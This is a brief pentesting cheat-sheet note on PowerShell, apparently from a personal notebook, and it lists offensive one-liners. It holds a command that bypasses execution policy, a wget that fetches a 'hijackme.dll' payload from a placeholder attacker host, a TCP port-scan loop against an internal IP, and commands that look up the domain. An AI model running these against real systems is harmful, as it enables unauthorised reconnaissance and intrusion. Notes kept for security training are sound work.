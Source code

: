 tags: #type/theory 

---
**Type:** #type/tool
**Tags:**  #tech/shell #tech/OS/windows #tactic/reconnaissance/active  
**Link:** 
**Purpose:** default shell on modern windows

---
# Info

# Usage
execution policies bypassed
	`powershell.exe -nop -exec bypass`: run powershell with 
download file from attacker machine
	`wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`
perform tcp port scan
	`1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null`
test connection on one tcp port
	`Test-NetConnection -Port 445 192.168.50.151`
print the current domain
`(Get-CimInstance Win32_ComputerSystem).Domain` or `$env:USERDOMAIN`
